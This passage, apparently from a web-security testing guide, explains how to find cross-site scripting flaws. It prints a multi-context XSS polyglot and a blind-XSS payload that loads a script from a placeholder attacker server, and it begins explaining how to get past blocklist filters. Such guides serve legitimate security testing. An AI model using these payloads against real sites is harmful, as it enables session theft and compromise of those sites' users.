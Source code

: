 ### Improving effectiveness

Another way of approaching manual XSS testing is to insert an XSS polyglot, a type of XSS payload that executes in multiple contexts.

Example:

    javascript:"/*\"/*`/*' /*</template>
    </textarea></noembed></noscript></title>
    </style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

Another way of testing for XSS more efficiently is to use generic test strings instead of XSS payloads. Insert a string of special HTML characters often used in XSS payloads, such as the following: >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly. Then construct test XSS payloads from the characters that you know the application isn’t properly sanitizing.

## Blind XSS

Blind XSS flaws are harder to detect; since you can’t detect them by looking for reflected input, you can’t test for them by trying to generate an alert box. Instead, try making the victim’s browser generate a request to a server you own. For example, you can submit the following payload, which will make the victim’s browser request the page `/xss` on your server:

    <script src='http://YOUR_SERVER_IP/xss'></script>

Monitor the server logs to see if anyone requests that page. If you see a request to the path `/xss`, a blind XSS has been triggered. [XSS Hunter](https://xsshunter.com/features) can automate this process.

## Confirm the impact

Check for the payload on the destination page. 

Sites might also use user input to construct something other than the next returned web page. Your input could show up in future web pages, email, and file portals. 

A time delay also might occur between when the payload is submitted and when the user input is rendered. This situation is common in log files and analytics pages. If you’re targeting these, the payload might not execute until later, or in another user’s account.

Some XSS payloads will execute in certain contexts, such as when an admin is logged in or when the user actively clicks, or hovers over, certain HTML elements. Confirm the impact of the XSS payload by browsing to the necessary pages and performing those actions.

## Bypassing protections

Most applications implement some sort of XSS protection in their input fields. Common is using a blocklist to filter out dangerous expressions that might be indicative of XSS. This type of protection can be bypassed.

Alternative JavaScript syntax: Some applications will sanitize `script` tags in user input. If that is the case, try executing XSS that does not use a `script` tag. Instead of:

    <img src="/><script>alert('Hello World');</script>"/>
